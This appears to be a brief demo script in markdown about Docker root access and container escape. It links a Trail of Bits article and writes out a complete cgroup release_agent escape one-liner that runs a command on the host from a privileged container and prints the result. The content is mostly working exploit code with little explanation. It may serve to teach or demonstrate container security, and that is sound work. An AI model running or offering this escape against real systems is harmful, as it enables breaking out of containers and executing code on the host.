 # Script to follow
Demonstrate root user

```
docker build --no-cache -t scratchtest .
docker run -it --entrypoint "/bin/bash" scratchtest
whoami
docker run -it --privileged --entrypoint "/bin/bash" scratchtest
```

[understanding-docker-container-escapes](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)  
```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;printf '#!/bin/sh\nps -aux >'"$t/o" >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```